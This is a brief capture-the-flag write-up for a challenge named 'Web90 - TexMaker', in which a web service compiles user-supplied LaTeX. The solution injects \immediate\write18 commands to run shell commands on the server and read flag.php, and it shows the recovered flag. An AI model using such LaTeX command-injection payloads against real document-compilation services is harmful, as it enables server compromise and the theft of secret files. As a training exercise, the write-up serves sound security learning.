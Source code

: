 # Web90 - TexMaker

## Description

Creating and using coperate templates is sometimes really hard. Luckily, we have a webinterace for creating PDF files. Some people doubt it's secure, but I reviewed the whole code and did not find any flaws.

## Solution

This task was about code injection in a latex compiler.

We can execute system commands with latex by using

```
\immediate\write18{command}
```

We can now get the flag with the following command

```
\immediate\write18{cat flag.php}
```

and the output is

```php
<?php
$FLAG = "IW{L4T3x_IS_Tur1ng_c0mpl3te}";
?>
```
